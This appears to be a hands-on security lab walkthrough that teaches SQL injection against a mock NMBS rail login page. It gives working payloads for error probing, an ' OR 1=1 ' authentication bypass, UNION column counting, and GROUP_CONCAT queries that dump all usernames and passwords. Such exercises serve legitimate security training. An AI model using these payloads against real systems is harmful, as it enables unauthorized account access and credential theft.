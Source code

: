 # SQL Injection

1.	Start by exploring their website: [NMBS website](https://www.nmbs.exn.be/)

1. When you browse to the **My NMBS** app, you’re presented with a login page.

    ![NMBS website](../../images/nmbs_profile.png)

    ![NMBS website](../../images/nmbs_login.jpg)

    <div class="purple">
    This is where the magic happens. Behind this login page is a database. Let’s test its defenses.
    </div>
    <br>



1. First, we’ll test for SQL injection vulnerability:

    ```
    '
    ```

    *Purpose: To see if the application throws an SQL error indicating the presence of an injection vulnerability.*

    ![NMBS website](../../images/nmbs_login_injection.jpg)

    *Oh yes, success: the website is vulnerable against SQL injections*

1. **Next, let’s probe deeper into the MySQL implementation.**

    ```
    ' OR 1=1 -- '
    ```
    
    **Soldier, attention to detail is critical throughout our entire mission, do not fail us!**

    *Remark the `-- ‘` =   two dashes, one space and one single quote*

    <br>

    **Payload**: This is a classic SQL injection technique used to bypass authentication. Effect: The `OR 1=1` condition always evaluates to true, effectively bypassing the password check. 
    The `-- '` comments out the rest of the query, so the password condition check performed by the code is actually ignored.

    **Result**: Success! The website logs in as the first user in the database, which is Freddie Guilty.

    ![NMBS website](../../images/freddie_guilty.jpg)

    Now that you’ve gained access, it’s time to gather information about the users of this site. **Where would this information be stored?**
    

1. **Take a look around!**


    <div class="purple">
    Tip, check the following pages:
    
    - `Mijn MoBIB-kaarten en abonnementen`
    - `Mijn persoonlijke gegevens`
    - `Elektronische portefeuille`
    </div>

    <br>

    ![NMBS website](../../images/nmbs_personal_info.png)

    We find that `Mijn persoonlijke gegevens` gives us a treasure trove of data from the database.


1. **Extract data from the database for all users**

    - First, determine the number of columns in the database. This is a **trial and error**, for example let’s try with 6 columns:

        ```
        ' UNION SELECT 1,2,3,4,5,6 –- '
        ```

        **Output**: Indicates whether the SELECT statement is successful. It appears we have more columns then 6. 
        
    - Keep trying trial and error.


        ```
        ' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 -- ' 
        ```

        **Result**: Success! We now know the database has **11 columns**. 

         ![NMBS website](../../images/nmbs_union_select.png)

        The result shows you which field in the web UI is mapped to the database.


1. **Construct a SQL query to extract all usernames and passwords**

    Dump the entire database using the following command:
    ```
    ' UNION SELECT 1, GROUP_CONCAT(id, ' | ', username, ' | ', password SEPARATOR '; '), 3, 4, 5, 6, 7, 8, 9, 10, 11 FROM users -- ' 
    ```

    However, you will notice this results in show output cut off and formatting issues.
    
    **Use the following command to get a clearer view of the database content:**

    ```
    ' UNION SELECT 1, (SELECT GROUP_CONCAT(CONCAT(id, ' | ', username, ' | ', password) SEPARATOR '<br>') FROM (SELECT * FROM users LIMIT 20) AS first_part), 3, 4, (SELECT GROUP_CONCAT(CONCAT(id, ' | ', username, ' | ', password) SEPARATOR '<br>') FROM (SELECT * FROM users LIMIT 20 OFFSET 20) AS second_part), 6, 7, (SELECT GROUP_CONCAT(CONCAT(id, ' | ', username, ' | ', password) SEPARATOR '<br>') FROM (SELECT * FROM users LIMIT 20 OFFSET 40) AS third_part), 9, 10, 11 -- t'
    ```

    ![NMBS website](../../images/nmbs_dump.png)
    
    **Result**: Now, you’ve extracted the complete database with all the users and their passwords. Hacking well done!

<br>

![NMBS website](../../images/sqli-attack.jpg)

<br>


<div class="info">

Details about the SQL Query if you are intrigued:

**Formatting**: we use `<br>` **HTML tag** between all users instead off a semicolon `;` to obtain a neatly formatted output.

**Data truncation**: The command splits the output into different parts and display it in **fields** `5` and `8`. If you split the data by 20 users, you won’t hit the **maximum field size** limit:

- The first GROUP_CONCAT fetches the first 20 users and concatenates their ID, username, and password.

- The second GROUP_CONCAT does the same for users 21 to 40.

- The third GROUP_CONCAT handles users 41 to 60.

</div>



    